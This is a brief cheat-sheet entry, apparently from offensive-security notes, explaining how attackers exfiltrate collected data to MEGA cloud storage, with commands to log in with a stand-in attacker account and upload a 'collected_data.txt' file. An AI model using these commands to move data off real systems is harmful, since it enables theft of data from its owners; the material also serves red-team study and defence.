 # Send Data via MEGA

Attackers also leverage MEGA cloud storage to exfiltrate collected data.

## 1. Login

```sh
mega-login "attacker@example.com"
# Password prompt opens... 
```

## 2. Send Data to MEGA

```sh
# mega-put <src> <dest>
mega-put ./collected_data.txt data/
```

## Resources

- [MEGA CMD User Guide](https://github.com/meganz/MEGAcmd/blob/master/UserGuide.md)